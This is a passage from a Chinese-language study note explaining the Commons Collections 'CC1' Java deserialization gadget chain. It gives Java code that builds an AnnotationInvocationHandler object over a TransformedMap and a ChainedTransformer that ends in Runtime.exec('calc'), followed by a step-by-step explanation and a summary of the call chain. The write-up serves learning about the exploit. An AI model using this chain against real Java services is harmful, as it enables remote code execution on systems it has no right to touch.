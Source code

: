 ```java
        Class expClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
        Constructor<?> expClassConstructor = expClass.getDeclaredConstructor(Class.class, Map.class);  
        expClassConstructor.setAccessible(true);  
        Object expO = expClassConstructor.newInstance(Target.class, transformedMap);  
  
        serialize(expO);  
        unserialize();  
  
//        Class<?> clazz = transformedMap.getClass();  
//        Method checkSetValueMethod = clazz.getDeclaredMethod("checkSetValue", Object.class);  
//        checkSetValueMethod.setAccessible(true);  
//        checkSetValueMethod.invoke(transformedMap, runtime);  
    }  
    public  static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
        oos.writeObject(obj);  
  
    }  
    public static Object unserialize() throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("ser.bin"));  
        Object obj = ois.readObject();  
        return obj;  
    }  
}
```
这里重点解释一下这部分代码的作用，后面逻辑和前面一样
```java
Transformer [] transformers = new Transformer[]{  
        new ConstantTransformer( Runtime.class),  
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),  
        new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),  
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})  
};
ChainedTransformer expTransformer = new ChainedTransformer(transformers);
```
在调用expTransformer的transformer方法后，将调用创建的ConstantTransformer实例方法transformer方法直接返回固定值为Runtime.class，然后创建InvokerTransformer类并且将Runtime.class作为值传递，因此创建了getMethod方法并且将getRuntime作为参数执行调用，这时返回Method对象作为Object值，然后创建invoke返回Runtime实例，最终创建exec方法并且最终调用exec("calc")弹出计算器
![[Pasted image 20250601013344.png]]

至此完成cc1链的AnnotationInvocationHandler入口调用
总结调用链流程
```java
payload->
	readObject->
		AnnotationInvocationHandler->
		   Map->
		   setValue->
		   checkSetValue->
		   ChainedTransformer(transformers)->
		   ConstantTransformer(Runtime.class)->
		   InvokeTransformer.transformer->
		  Runtime.getRuntime().exec("calc");
```
```
